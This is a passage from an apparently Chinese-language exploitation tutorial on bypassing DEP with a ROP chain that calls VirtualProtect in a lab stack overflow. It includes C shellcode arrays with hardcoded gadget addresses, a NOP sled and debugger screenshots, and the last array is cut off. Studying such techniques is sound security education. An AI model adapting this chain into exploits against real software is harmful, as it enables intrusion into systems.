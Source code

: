 我们在其后紧跟上`ebp + 0xC`的Size和`ebp + 0x10`的NewProtect两个固定参数，然后是一个`push esp jmp eax`把oldprotect参数放在`ebp+0x14`。由于eax没有变，所以jmp后又是一遍PPPR。此时修改内存属性的参数已经布置完毕，这个最后的retn我们让它跳到期待已久的VirtualProtect函数中去。此时shellcode如下：

```c
char shellcode[]=
// 180	nop
...
// 4	pop eax retn
"\x26\xb8\x6e\x7d"
// 4	pop edi pop esi pop ebx retn
"\x64\xa2\x5d\x7d"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	retn
"\x57\xe2\x92\x7c"
// 4	nop
"\x90\x90\x90\x90"
// 4	push esp jmp eax
"\xc6\xc6\xeb\x77"
// 4	argument for VirtualProtect: Size
"\xFF\x00\x00\x00"
// 4	argument for VirtualProtect: NewProtect
"\x40\x00\x00\x00"
// 4	push esp jmp eax
"\xc6\xc6\xeb\x77"
// 8	nop
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
// 4	change attribute of mem
"\xd9\x1a\x80\x7c"
```

编译并调试：

![Bildschirmfoto 2018-09-29 um 8.29.31 PM.png]({{ site.url }}/images/0day/DD34AC4AA34258F8261D4621BDDDBFA3.png)

完美！再往后，就是进入到VirtualProtect函数执行。我们看一下进入这个函数后它的操作（注意看右下方栈区）：

![Bildschirmfoto 2018-09-29 um 10.59.57 AM.png]({{ site.url }}/images/0day/A8F2934011B5BB97FF4741A9E0CC2765.png)

注意，`VirtualProtect`的最后是`pop ebp retn 0x10`。因此，我们最后的思路是：先放4个nop抵消`pop ebp`的影响，然后放一个`jmp esp`的跳板。接着放16或20个nop去抵消`retn 0x10`造成的影响，再后面放弹窗shellcode。最终shellcode如下：

```c
char shellcode[]=
// 180	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
// 4	pop eax retn
"\x26\xb8\x6e\x7d"
// 4	pop edi pop esi pop ebx retn
"\x64\xa2\x5d\x7d"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	retn
"\x57\xe2\x92\x7c"
```